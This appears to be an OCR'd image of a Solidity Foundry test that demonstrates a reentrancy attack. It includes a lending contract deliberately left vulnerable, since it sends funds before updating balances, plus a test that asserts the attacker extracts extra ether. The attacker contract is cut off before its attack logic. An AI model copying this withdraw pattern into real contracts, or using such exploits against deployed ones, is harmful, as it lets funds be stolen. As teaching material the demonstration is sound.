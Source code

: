 ```solidity
    function setUp() public {
        // Deploy the vulnerable contract
        vulnerableLending = new VulnerableLendingContract();
        
        // Fund the vulnerable contract
        vm.deal(address(this), 100 ether);
        (bool success, ) = address(vulnerableLending).call{value: 10 ether}("");
        require(success, "Funding failed");
        
        // Deploy the attacker contract
        attacker = new AttackerContract(address(vulnerableLending));
        vm.deal(address(attacker), 1 ether);
    }
    
    function testExploit() public balanceLog {
        console.log("Starting reentrancy attack demonstration");
        
        // Initial state
        console.log("Initial vulnerable contract balance:", address(vulnerableLending).balance);
        console.log("Initial attacker balance:", address(attacker).balance);
        
        // Deposit from attacker
        vm.prank(address(attacker));
        vulnerableLending.deposit{value: 1 ether}();
        
        // Execute attack
        attacker.attack();
        
        // Final state
        console.log("Final vulnerable contract balance:", address(vulnerableLending).balance);
        console.log("Final attacker balance:", address(attacker).balance);
        
        // Verify the attack was successful
        assertGt(address(attacker).balance, 1 ether, "Attack did not extract additional funds");
    }
}

contract VulnerableLendingContract {
    mapping(address => uint256) public balances;
    
    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }
    
    function withdraw(uint256 amount) external {
        require(balances[msg.sender] >= amount, "Insufficient balance");
        
        // Vulnerable: state update after external call
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success, "Transfer failed");
        
        balances[msg.sender] -= amount;
    }
}

contract AttackerContract {
    VulnerableLendingContract public vulnerableLending;
    uint256 public attackAmount = 1 ether;
    
    constructor(address _vulnerableLending) {
        vulnerableLending = VulnerableLendingContract(_vulnerableLending);
    }
    
```